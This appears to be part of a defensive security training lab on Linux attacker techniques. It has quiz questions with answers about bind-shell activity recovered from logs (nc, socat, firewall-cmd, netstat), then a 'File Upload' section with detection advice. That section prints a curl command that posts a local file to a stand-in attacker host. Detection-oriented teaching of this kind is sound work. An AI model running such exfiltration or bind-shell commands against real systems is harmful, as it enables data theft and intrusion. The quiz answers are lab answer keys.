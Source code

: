 ### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - Which application was utilized to establish the bind-shell connection to the target port 3389?

> **Answer:** nc

2 - Which port was the socat application was run to establish a bind-shell connection? (TCP protocol)

> **Answer:** 443

3 - In order for Bind-Shell  access over the 8080 port to be successful, which Linux application that corresponds to the Mitre ATT&CK technique, “T1562.004 - Impair  Defenses: Disable or Modify System Firewall” did the attacker use?

> **Answer:** firewall-cmd

4 - What application did the  system administrator who noticed the Bind-Shell activity, detect that  the IP address 172.16.1.77 was accessed by bind-shell?

> **Answer:** netstat

## File Upload

Attackers often leak the sensitive information and smuggle data from  the systems they seize. We will be covering the use of some applications they can utilize in *nix systems in such cases.

**Note:** All of the commands below can also be used in "File Download" operations.

### **# curl command**

The **curl** command is an application used on *nix  systems to pull or load data from the target. It supports many different protocols like HTTP, HTTPS, FTP, SCP, etc. As in the command below, the -X parameter determines the method (GET, POST, PUT, DELETE, etc.) and  the -d parameter determines and specifies the data to be transferred to  the remote location.

```
# URL=http://attacker.com/  # LFILE=file_to_send  # curl -X POST -d @$file_to_send $URL
```

For detection; Parameters such as "-X POST" and "-d" related to the  use of curl application should be monitored. In addition, it should be  questioned whether the destination (IP/domain) to which the file is  transferred is a known destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “curl” |grep “X”   - Searchable from history on Linux system.  # history | grep “curl” | grep “X”  or  # cat ~/.bash_history | grep “curl” |grep “X”    - It can be searched in "curl" process create or network connection  events in EDR/XDR logs. Afterwards, the commands like "X" or "POST" are  searched on the command line.

### **# ftp command**

**ftp** is a file transfer protocol and performs  operations such as downloading or uploading files. Attackers can use ftp applications to download malicious applications on the systems they  have compromised or to transfer sensitive data to a remote location.
